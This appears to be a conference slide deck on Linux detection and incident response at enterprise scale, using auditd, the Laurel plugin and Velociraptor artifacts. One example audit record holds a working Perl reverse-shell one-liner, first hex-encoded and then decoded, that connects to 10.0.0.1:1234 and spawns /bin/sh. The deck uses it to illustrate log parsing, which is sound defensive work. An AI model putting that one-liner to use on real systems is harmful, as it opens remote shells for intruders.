


# Who-are-we
* Just 2 guys in enterprise IT, doing defensive security, with a focus on Linux
    * Hendrik: Background in offensive security, anomaly detection
    * Hilko: Background in developing security tools, open source


# Large Enterprise – what do we mean?
- Means things have to scale:
    - 10k+ heterogeneous servers, 100k+ clients
    - Large data (up to petabytes) have to be process and stored
    
- Challenges to handle
    - Asset Management is never up to date
    - Dynamic systems (cloud, container, ...) come and go
    - Regulations (EU Tender)

<!-- 
    * data size is depending on retention policy and kind of logs
    * large diversity of data, not "the one system"
    * assets: we dont know what we have, manual entries are always too old 
    * cloud: systems come and go
        * 10k systems may appear as 100k within $amount of time
-->

# What we need to do

<!-- hilko -->

<div class="container">
<div class="col2">
- Gather, classify asset information
- Produce meaningful telemtry on endpoints
- Write targeted rules to detect specific threats
- Gather context for alerts
- React to threats

(cf. Matt Swann's [Hierarchy of IR needs](https://github.com/swannman/ircapabilities))
</div>

<div class="col3">
{height="300px" valign="bottom"}
</div>
</div>


<!-- 
    * Asset is key
    * We need to get all that information out in $amount_of_time$
    * We need to access/analyze these data in $amount_of_time$
    * Story 1: not all Logs are needed on every system. Web logs are only necessary for web servers.
    * Story 2: Auditd is creating a lot of data but it is not easy to correlate it as it creates 1 Event -> 5 log lines. We dont even not need all of that. This has direct affect in scalability

--> 

# Working around Linux Audit shortcomings

{height="150px" align="center"}

\"Linux Audit -- Usable, Robust, Easy Logging\"

-   *auditd* plugin: Parse audit log, write JSON
-   Enrichment, process tracking and labelling
-   Filtering capabilities
-   <https://github.com/threathunters-io/laurel>, GPLv3

# Linux Audit Subsystem, LOL

``` shell
type=SYSCALL msg=audit(1626611363.720:348501): …
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl"
  a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24
  703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545
  245414D2C67657470726F746F62796E616D6528227463702229293B69662863
  6F6E6E65637428532C736F636B616464725F696E2824702C696E65745F61746
  F6E282469292929297B6F70656E28535444494E2C223E265322293B6F70656E
  285354444F55542C223E265322293B6F70656E285354444552522C223E26532
  2293B6578656328222F62696E2F7368202D6922293B7D3B
type=CWD msg=audit(1626611363.720:348501): …
```

- Parsing is hard for SIEM software
- Few filtering options

# A little post-processing done by Laurel

``` json
{ "ID":"1626611363.720:348501",
  "SYSCALL": { … "PPID": {"EVENT_ID": "1626607554.859:32454",
    "comm": "sh","exe":"/bin/sh"},"LABELS":["weblogic"], … },
  "EXECVE":{ "argc": 3,
    "ARGV": ["perl", "-e",
      "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,
      getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){
      open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");
      exec(\"/bin/sh -i\");};"]},
   … }
```


# auditd + Laurel setup

{height="600px" align="center"}

# What is an EDR and why don't we?

- Vendors' view
  - Detection = Logging + Alerting of Security Events
  - Response = Allows to fetch context, manipulate device
- Our view
  - Windows-first products, no understanding for Unix platforms
  - Black-box products, no transparency
  - Closed products, no custom rules
- Our Linux Audit rulesets + [Laurel](https://github.com/threathunters-io/laurel) yield better results
- Something needed to be done about the "R" side.

# Velociraptor as an Incident Response Tool

<div class="container">
<div class="col">
{height="150px" align="center"}

<!--  [Velociraptor](https://docs.velociraptor.app/) -->
</div>

<div class="col4">
- Useful not only for incident clear-up
- Over 70 Custom Artifacts
- Master + Minion Setup
- "Some assembly required"
- Thanks to Mike Cohen
  - … for encouraging and quickly merging contributions ([#2703](https://github.com/Velocidex/velociraptor/pull/2703), [#3453](https://github.com/Velocidex/velociraptor/pull/3429), [#4108](https://github.com/Velocidex/velociraptor/pull/4108), [#4415](https://github.com/Velocidex/velociraptor/pull/4415), etc.)
  - … for quickly providing fixes for issues we stumbled into ([#3889](https://github.com/Velocidex/velociraptor/pull/3889), [#4016](https://github.com/Velocidex/velociraptor/pull/4016), [#4179](https://github.com/Velocidex/velociraptor/pull/4179), etc.)

</div>
</div>

# Velociraptor - Master/Minion setup

{height="600px" align="center"}

# Velociraptor - Integration

{height="600px" align="center"}

<!-- 
 * It's important that enterprises join those projects to make it enterprise ready
-->

# Artifact Interaction

{height="600px" align="center"}

<!--
 * Asset Identification
    * DataCollection and Auto-Labeling
    * Using Client Metadata
 * Again: scaling
    * find an algorithm/way to handle all that data coming back
    * large data as blob vs streaming vs 3rd party upload
 * Getting it "Enterprise Ready"
-->

# DataCollection
<div class="container">
<div class="col">
- Challenge: Hunts must scale - it's a massive amount of data
- *server_event*
    - Scheduling periodic Artifacts
    - Listening for Artifact Inputs
- *client_event*
    - diff() - tracks for changes
</div>

<div class="col2">
``` yaml
- name: Unix_Data_Collection
  precondition: |
      SELECT * FROM scope()
      WHERE enable_InfoCollection=True
  query: |
      LET rerun_collection =
        SELECT hunt(
          description="Automated DataCollection",
          artifacts="Custom.DataCollection.Client.Info",
          expires=now()+time_expire,
          exclude_labels = "inactive",
          cpu_limit=30
      ) FROM scope()

      SELECT * FROM
        foreach(
          row={SELECT * FROM clock(
            period=time_period)},query=rerun_collection)
```
</div>
</div>

# Labeling is Key!

``` yaml
   - name: metaMap_pkg
     default: |
      MetaName,PKG_Name
      Packages_Web,^apache|httpd|nginx
      Packages_Container,^docker|containerd|runc
      Packages_Cluster,^k8s|k3s
      Packages_Proxy,^squid|varnish
   - name: metaMap_svc
     default: |
      MetaName,Service_Name,Description_Regex
      Services_App,.+,^Atlassian|confluence
      Services_Web,^apache|httpd|tomcat|nginx|jboss,.+
   - name: MetaToLabelMap
     default: |
      LabelName,MetaName,Entry_Regex
      Webserver,Packages_Web,.+
      APP_Confluence,Services_App,confluence
``` 

# Automatic Hunting
<div class="container">
<div class="col3">
- Takes input from DataCollection
- Running further investigations
    - Tampering Detection (Auditd, Laurel)
    - Specific IoC
    - YARA Scans
</div>

<div class="col4">
``` yaml
- name: Unix_AutoHunt
  query: |
    # [...]
    SELECT * FROM hunt(
      description="Automated Hunting",
      artifacts=("Custom.Autohunt.Example"),
      expires=now()+time_period_autohunt,
      include_labels = myLabels,
      exclude_labels = "inactive",
      cpu_limit=30 )
```
</div>
</div>

# Garbage Collection
<div class="container">
<div class="col">
- Large amount of assets
    - High rotation in Cloud. 10k  Systems appear as 100k
- Deletion of Clients + Hunts
</div>
<div class="col2">
``` yaml
- name: DeleteClients
  query: |
    SELECT * FROM foreach(
	  row = { SELECT * FROM client_list },
      query={
        SELECT client_id, c_info, type,
		  ReallyDoIt,count() as objects
        FROM client_delete(
		  client_id=client_id, really_do_it=ReallyDoIt)
        WHERE NOT client_id="server" },
      async=True, workers=parallel_workers )
- name: OrphanedClients
  query: |
    SELECT Names FROM foreach(
      row=clienlist_batches,
      query={ SELECT _ FROM execve(
        cwd=file_store(path="clients"), 
        argv=[("rm", "-rf") + Names] )},
      async=true, workers=remove_workers)
```
</div>
</div>

# Summary / Outlook
- Combination of auditd/Laurel + Velociraptor 
    - Assets are key
	- Velociraptor Artifacts are enabling new detection and response capabilities
    - Signature scanning
    - Behaviour Monitoring
- Open Source works well, given the right commitment
- Limitations: 
    - focus is on hosted systems, docker/kubernetes has challenges
- eBPF: cornerstone for Linux Audit replacement

# Thank you for your attention

Slides will be published here:

{height="200px" align="center"}

([https://hillu.github.io/conference-materials/hacklu-2025-linux/slides.reveal.html](https://hillu.github.io/conference-materials/hacklu-2025-linux/slides.reveal.html))

Contact us at

- Hilko Bengen <<bengen@hilluzination.de>> / @hillu@infosec.exchange
- Hendrik Schmidt <<contact@hschmidt.eu>>

